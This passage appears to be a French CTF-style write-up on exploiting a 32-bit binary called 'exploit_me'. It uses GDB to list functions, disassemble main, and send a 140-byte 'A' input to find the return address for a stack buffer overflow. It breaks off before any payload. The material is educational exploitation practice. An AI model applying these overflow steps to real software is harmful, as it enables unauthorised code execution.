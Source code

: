 L'architecture est en `Little Endian`, ce qui signifie que les adresses seront interprétées à l'envers.

## Debugging avec GDB

Pour aller plus loin, nous devons trouver l'adresse de retour à écraser lors de l'exploitation. Nous lançons l'analyse avec GDB :

```bash
- gdb -q exploit_me
(gdb) info functions
```

### Fonctionnalités Clés

Voici les fonctions définies dans l'exécutable :

```
Non-debugging symbols:
0x080482b4  _init
0x08048300  strcpy
0x08048300  strcpy@plt
0x08048310  puts
0x08048310  puts@plt
0x08048320  __gmon_start__
0x08048320  __gmon_start__@plt
0x08048330  __libc_start_main
0x08048330  __libc_start_main@plt
0x08048340  _start
0x08048370  __do_global_dtors_aux
0x080483d0  frame_dummy
0x080483f4  main
0x08048440  __libc_csu_init
0x080484b0  __libc_csu_fini
0x080484b2  __i686.get_pc_thunk.bx
0x080484c0  __do_global_ctors_aux
0x080484ec  _fini
```

Ensuite, nous déassemblons la fonction `main` :

```bash
(gdb) disas main
```

Nous allons maintenant trouver l'adresse de retour en simulant l'exécution de la fonction avec un débordement de tampon.

### Simulation du Débordement

Nous utilisons GDB pour identifier l'adresse de retour après un débordement :

```bash
(gdb) b main
(gdb) r $(python -c 'print "A"*140')
(gdb) x/200x $esp
```
